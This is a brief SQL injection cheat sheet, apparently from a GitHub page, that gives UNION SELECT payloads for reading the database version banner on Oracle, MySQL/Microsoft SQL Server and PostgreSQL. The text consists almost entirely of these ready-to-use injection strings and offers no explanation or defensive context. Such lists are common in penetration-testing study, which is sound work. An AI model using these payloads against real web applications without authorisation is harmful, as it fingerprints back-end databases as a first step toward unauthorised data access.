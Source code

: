 ## ORACLE
```sql
' UNION SELECT BANNER, NULL FROM v$version--
```
## MySQL and Microsoft
```sql
' UNION SELECT @@version, NULL-- -
```
## PostgreSQL
```sql
' UNION SELECT version(), NULL-- -
```
